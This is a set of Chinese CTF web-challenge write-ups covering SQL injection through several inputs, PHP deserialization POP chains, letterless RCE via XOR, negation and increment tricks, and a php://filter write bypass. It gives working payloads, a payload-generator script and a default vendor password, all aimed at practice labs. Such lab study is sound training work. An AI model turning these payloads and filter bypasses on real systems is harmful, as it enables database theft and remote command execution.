## CTFSHOW

### Web

#### MYSQL结构

```
?id=0 union select 1, group_concat(table_name) from information_schema.tables where table_schema=database()
```

查表返回 ：

```
ID: 1
Data: temblfseht,news
```

查询字段名：

```
?id=0 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='temblfseht'
```

返回：

```
ID: 1
Data: qkjjcjpwmt
```

查询qkjjcjpwmt数据：

```
?id=0 union select 1, group_concat(qkjjcjpwmt) from temblfseht 
```

返回：

```
ID: 1
Data: ctfhub{5a2321478157f07eebb0093b}
```

做完了发现有点奇怪，这不就是普普通通的联合注入吗，为什么又单独成为一道题？

#### Cookie注入

打开提示：`这次的输入点变了。尝试找找Cookie吧`

观察cookie发现：



hint解码：



刷新发现：



猜测就是一个通过cookie传参的联合注入

```
select * from news where id=0 union select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
ID: 1
Data: dnrtjhvioq,news
```

```
select * from news where id=0 union select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='dnrtjhvioq'
ID: 1
Data: ssuyhfbsds
```

```
select * from news where id=0 union select 1,ssuyhfbsds from dnrtjhvioq
ID: 1
Data: ctfhub{81fb68e27ee8a124b720d789}
```

#### UA注入



操作类似上面，不过要改UA，那就用hackbar：

```
select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
ID: 1
Data: gceuyrpqxp,news
```

```
select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='gceuyrpqxp'
ID: 1
Data: prqibdtogg
```

```
select * from news where id=0 union select 1,prqibdtogg from gceuyrpqxp
ID: 1
Data: ctfhub{f9903da2267ac394daac496c}
```

#### Refer注入


```
           <code>select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()</code></br>ID: 1</br>Data: news,syowpbidys   
```

```
           <code>select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='syowpbidys'</code></br>ID: 1</br>Data: pzbqdphzty
```

```
            <code>select * from news where id=0 union select 1,pzbqdphzty from syowpbidys</code></br>ID: 1</br>Data: ctfhub{d7bf233240ed038c06f6cf0c}  
```

#### 过滤空格

发现含有空格的时候会报错



使用%0a绕过空格：



%0a是回车经URL编码，所以可以在cyberchef写然后编码更方便一些：

```
?id=0%0Aunion%0Aselect%0A1,group_concat(column_name)%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_schema=database()
ID: 1
Data: id,data,xthjtozvay
```

```
?id=0%0Aunion%0Aselect%0A1,xthjtozvay%0Afrom%0Axdhqptxeoq
ID: 1
Data: ctfhub{17dae8f9af7fd60aacae7f1a}
```

#### 默认口令

做的时候以为是有验证码的爆破，结果试的时候发现验证码的正确率实在太低，根本出不来。

于是上网搜索，发现原来是考网站的默认密码

密码：`eyougw:admin@(eyou)`

## nssctf

#### Web

#### [SWPUCTF 2021 新生赛]gift_F12

F12直接发现FLAG：


提交发现交不上去，还以为是假的。仔细一看，也不像假的呀。

搜了一下发现是要把头改成NSSCTF

#### [NSSCTF 2022 Spring Recruit]ezgame

在js文件中搜索NSS发现flag



#### [SWPUCTF 2021 新生赛]pop

```php
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?>
```

分析：

w44m是关键类，构造pop链子执行 `Getflag()`。

w22m类中有 `__destruct()`函数,是pop的入口。

w33m类中有 `__tostring()`，可以将w22m类中$w00m类赋值为w33m类的对象，触发w33m的 `__tostring()`。

```php
this->w00m->{this->w00m->{this->w22m}();
```

这段代码的含义：

1. **$this->w00m** :

* 这表示当前对象的 `w00m` 属性，该属性应该是一个对象实例。

1. **{$this->w22m}** :

* 这表示当前对象的 `w22m` 属性，该属性应该是一个字符串，表示对象 `w00m` 中的方法名。

1. **{$this->w22m}()** :

* 这意味着调用对象 `w00m` 中名称为 `w22m` 属性值的方法。

合成后的调用：

这段代码将 `w00m` 对象中的 `w22m` 方法调用了出来。如果 `w00m` 是一个对象，`w22m` 是它的一个方法名字符串，那么实际调用的就是这个方法。

所以，使w00m为w44m的对象，w22m为Getflag，就可以直接调用Getflag方法。

pop链子即构造完成，只需要满足 `if($this->admin === 'w44m' && $this->passwd ==='08067')`即可getflag。

private和protected变量不可以在pop链中赋值，必须在类中赋值。

Payload：

```php
<?php
class w44m{
    private $admin = 'w44m';
    protected $passwd = '08067';
}
class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}
class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}
$a = new w44m();
$b = new w22m();
$c = new w33m();

$b->w00m = $c;
$c->w00m = $a;
$c->w22m = 'Getflag';
echo serialize($b);
?>
```

但是序列化出的Payload不能直接发。

参考文章：

https://wiki.wgpsec.org/knowledge/ctf/php-serialize.html

由于存在private和protected变量，所以序列化出的字符串含有空字符，于是在传参的时候必须把URL编码后的%00补上。

> private反序列化后是%00(类名)%00(变量名)，protect是%00*%00(变量名)

如：

序列化后：

```
O:4:"w22m":1:{s:4:"w00m";O:4:"w33m":2:{s:4:"w00m";O:4:"w44m":2:{s:11:"w44madmin";s:4:"w44m";s:9:"*passwd";s:5:"08067";}s:4:"w22m";s:7:"Getflag";}}
```

补全后：

```
O:4:"w22m":1:{s:4:"w00m";O:4:"w33m":2:{s:4:"w00m";O:4:"w44m":2:{s:11:"%00w44m%00admin";s:4:"w44m";s:9:"%00*%00passwd";s:5:"08067";}s:4:"w22m";s:7:"Getflag";}}
```

又或者在输出序列化字符串的时候直接进行URL编码亦可以：

```
echo urlencode(serialize($b));
```

输出：

```
O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D
```

#### [SWPUCTF 2021 新生赛]hardrce

源码：

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 
```

只能使用：

* **数字** ：0-9
* **一些符号** ：! # & ( ) ' , . / : ; _ { } | ~

使用取反构造语句，使用下面的脚本生成语句。

```
system(cat /f*);
(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%D5);
```

getflag。

#### [SWPUCTF 2021 新生赛]no_wakeup

```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```

_wakeup()函数的绕过：

当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。

标准序列化结果

O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

将2改为3 绕过__Wakeup魔法函数
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

## BUUCTF

### Web

#### [极客大挑战 2019]EasySQL



看到这个第一想法就是万能密码。

试它是用单引号还是双引号：



是单引号，于是万能密码：




#### [极客大挑战 2019]PHP

打开靶机，文字提示到备份网站。



理论上应该是要扫描，下载备份文件，但我懒得扫描，随手一试www.zip就出来了

打开网站文件，发现有三个php文件：



flag.php里面是假的。

class.php：

```php
<?php
include 'flag.php';
error_reporting(0);
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
        $this->username = 'guest';
    }
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die(); 
        }
    }
}
?>
```

看了一下，猜测是反序列化，但是没找到传参点。

后来在index里找到了传参点。

因为这两天就做过类似的，所以一眼就发现了考点：

private变量，和绕过weakup。

payload：

```php
$a = new Name("admin", 100);
echo urlencode(serialize($a));
```

最后将name后面的2改为3即可

```
O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```



#### [极客大挑战 2019]BuyFlag

访问靶机后先打开源码，扫了一圈没东西。

于是访问MENU_PAYFLAG

打开源码发现：

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

is_numeric用于判断一个变量是否为数字或数字字符串。

所以passwd不能为纯数字

因为是弱比较，所以可以等于404a

于是传参：

```
password:404a
money:100000000
```

发现提示：Only Cuit's students can buy the FLAG

查看请求包发现：cookie:user=0

所以让user=1重新发包。

提示：

you are Cuiter
Password Right!
Nember lenth is too long

给money后面加上[]就可以了。

```
password:404a
money:100000000
```



## 无回显反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class GGbond{
    public $candy;

    public function __call($func,$arg){
        $func($arg);
    }

    public function __toString(){
        return $this->candy->str;
    }
}

class unser{
    public $obj;
    public $auth;

    public function __construct($obj,$name){
        $this->obj = $obj;
        $this->obj->auth = $name;
    }

    public function __destruct(){
        $this->obj->Welcome();
    }
}

class ZYPC{
    public $cmd;
    public function __invoke(){
        echo 'in ZYPC invoke';
        if($this->cmd){
            $this->cmd = preg_replace("/ls|cat|tac|more|sort|head|tail|nl|less|flag|cd|tee|bash|sh|&|^|>|<|\.| |'|`|\(|\"/i","",$this->cmd);
        }
        exec($this->cmd);
    }
}

class ZY{
    public $obj;
    public $flag = "Welcome";
    public $auth = "who are you?";

    public function Welcome(){
        if(unserialize($this->auth)=="waterbucket"){
            $star = implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));
            echo $star;
        }
        else
            echo 'Welcome';
    }

    public function __get($get)
    {
        $func = $this->flag;
        return $func();
    }
}

new unser(new ZY(),"user");

$data = $_POST['data'];
if(!preg_match('/flag/i',$data))
    unserialize($data);
else
    echo "不会这都不会吧";
Welcomein ZYPC invoke
```

POC:

```php
<?php
class GGbond{
    public $candy;
}
class unser{
    public $obj;
    public $auth;
}
class ZYPC{
    public $cmd='cacatt$IFS$9/f*|teteee$IFS$9a';
}
class ZY{
    public $obj;
    public $flag;
    public $auth = 's:11:"waterbucket";';
}
$a=new unser();
$a->obj=new ZY();
$a->obj->obj=new GGbond();
$a->obj->obj->candy=new ZY();
$a->obj->obj->candy->flag=new ZYPC();
echo preg_replace('/s:4:"flag"/','S:4:"fla\\\67"',serialize($a));
```

### **思路：**

危险函数在ZYPC的__invoke()函数中，构造pop链执行危险函数。用双写绕过关键字替换。直接写入无后缀文件绕过点号。用十六进制绕过黑名单。

---

pop链：

```
ZYPC {__invoke()} <- ZY {__get()} <-GGbond {__toString()} <-ZY{Welcome()} <- unser{ __destruct()}
```


if(unserialize($this->auth)=="waterbucket")：

echo serialize("waterbucket");

输出waterbucket的序列化字符


implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));：

在PHP中，`implode` 函数用于将数组元素连接成一个字符串。可以触发__tostring()。


读flag命令：

`cacatt`

正则将cat和tee替换为空，剩下的仍能拼接为cat和tee。

`$IFS$9`绕过空格。

*为通配符，绕过flag。


十六进制绕过：

讲字符串的s改为大写S，然后将需要代替的字符改为\xx(十六进制)的格式。这里直接使用了正则替换达到目的。


执行命令后直接下载/a文件即可。


## die 反序列化

```php
<?php

highlight_file(__FILE__);
class Start{
    public $barking;
    public function __construct(){
        $this->barking = new Flag;
    }
    public function __toString(){
            return $this->barking->dosomething();
    }
}

class CTF{ 
    public $part1;
    public $part2;
    public function __construct($part1='',$part2='') {
        $this -> part1 = $part1;
        $this -> part2 = $part2;
      
    }
    public function dosomething(){
        $useless   = '<?php die("+Genshin Impact Start!+");?>';
        $useful= $useless. $this->part2;
        file_put_contents($this-> part1,$useful);
    }
}
class Flag{
    public function dosomething(){
        include('./flag,php');
        return "barking for fun!";
      
    }
}

    $code=$_POST['code']; 
    if(isset($code)){
       echo unserialize($code);
    }
    else{
        echo "no way, fuck off";
    }
```

POC：

```php
<?php

highlight_file(__FILE__);
class Start{
    public $barking;
    public function __construct(){
        $this->barking = new Flag;
    }
    public function __toString(){
            return $this->barking->dosomething();
    }
}

class CTF{ 
    public $part1;
    public $part2;
    public function __construct($part1='',$part2='') {
        $this -> part1 = $part1;
        $this -> part2 = $part2;
    
    }
    public function dosomething(){
        $useless   = '<?php die("+Genshin Impact Start!+");?>';
        $useful= $useless. $this->part2;
        file_put_contents($this-> part1,$useful);
    }
}
class Flag{
    public function dosomething(){
        include('./flag,php');
        return "barking for fun!";
    
    }
}

    $code=$_POST['code']; 
    if(isset($code)){
       echo unserialize($code);
    }
    else{
        echo "no way, fuck off";
    }

$pop = new Start;
$pop->barking = new CTF;
$pop->barking->part1="php://filter/write=convert.base64-decode/resource=flag.php";
$pop ->barking->part2= "bbPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";
echo serialize($pop);
```

Flag类中include的是flag**,**php，而不是flag.php。所以这个函数用不了。

### **思路：**

利用CTF类中dosomething()写入危险函数。

---

题目在$useless后拼接了一段par2，然后用file_put_contents写入part1的文件。


先将危险函数 `<?php system("cat /flag");`进行base64加密得 `PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=`赋值给part2。

然后这里可以用伪协议 `php://filter`来对写入的数据进行base64解码，将前面的die函数变成乱码。

然后使后面拼接的base64编码刚好解码为危险函数，即可达到目的。


拼接后 `<?php die("+Genshin Impact Start!+");?>PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=`



危险函数没有解码出来。

这是因为base64编码后只有 `A-Za-z0-9+/=`字符。所以对应的，解码只解 `A-Za-z0-9+/=`。

且base64解码是由头开始每四位base64字符解码为三位字符。所以前面错一位，后面整个解码就都错了。

所以需要在危险函数的base64编码前面补齐字符，使其刚好能正确解码。

这里不宜计算，因为顶多差三位，不如直接试。

试一下补齐两位刚刚好。



得到flag：




## 网上收集：

摘自：https://xz.aliyun.com/t/11929?time__1311=Cq0xuD2Dg0i%3DDsD7zAhxYTqiwOAQD9AEroD#toc-2

无字母rce：

异或：

```
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
$$__[_]($$__[__]); // $_POST[_]($_POST[__]);
```

```
import re
import requests
import urllib
from sys import *
import os

a=[]
ans1="" 
ans2=""
for i in range(0,256): #设置i的范围
    c=chr(i)
    #将i转换成ascii对应的字符，并赋值给c
    tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c,re.I)
    #设置过滤条件，让变量c在其中找对应，并利用修饰符过滤大小写，这样可以得到未被过滤的字符
    if(tmp):
        continue
        #当执行正确时，那说明这些是被过滤掉的，所以才会被匹配到，此时我们让他继续执行即可
    else:
        a.append(i)
        #在数组中增加i，这些就是未被系统过滤掉的字符

# eval("echo($c);");
mya="system"  #函数名 这里修改！
myb="dir"      #参数
def myfun(k,my): #自定义函数
    global ans1 #引用全局变量ans1，使得在局部对其进行更改时不会报错
    global ans2 #引用全局变量ans2，使得在局部对其进行更改时不会报错
    for i in range (0,len(a)): #设置循环范围为（0，a）注：a为未被过滤的字符数量 
        for j in range(i,len(a)): #在上个循环的条件下设置j的范围
            if(a[i]^a[j]==ord(my[k])):
                ans1+=chr(a[i]) #ans1=ans1+chr(a[i])
                ans2+=chr(a[j]) #ans2=ans2+chr(a[j])
                return;#返回循环语句中，重新寻找第二个k，这里的话就是寻找y对应的两个字符
for x in range(0,len(mya)): #设置k的范围
    myfun(x,mya)#引用自定义的函数
data1="('"+urllib.request.quote(ans1)+"'^'"+urllib.request.quote(ans2)+"')" #data1等于传入的命令,"+ans1+"是固定格式，这样可以得到变量对应的值，再用'包裹，这样是变量的固定格式，另一个也是如此，两个在进行URL编码后进行按位与运算，然后得到对应值
print(data1)
ans1=""#对ans1进行重新赋值
ans2=""#对ans2进行重新赋值
for k in range(0,len(myb)):#设置k的范围为(0,len(myb))
    myfun(k,myb)#再次引用自定义函数
data2="(\""+urllib.request.quote(ans1)+"\"^\""+urllib.request.quote(ans2)+"\")"
print(data2)
```

自增：

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$_++;//B
$_++;//C
$_++;//D
$_++;//E
$__=$_;//E
$_++;//F
$_++;//G
$___=$_;//G
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;//T
$_=$___.$__.$_;//GET
//var_dump($_);
$_='_'.$_;//_GET
var_dump($$_[_]($$_[__]));
//$_GET[_]($_GET[__])
```

取反：

```php
<?php
$ans1='system';//函数名
$ans2='dir';//命令
$data1=('~'.urlencode(~$ans1));//通过两次取反运算得到system
$data2=('~'.urlencode(~$ans2));//通过两次取反运算得到dir
echo ('('.$data1.')'.'('.$data2.')'.';');
```

php弱比较：

```
'' == 0 == false
'123' == 123
'abc' == 0
'123a' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1
```
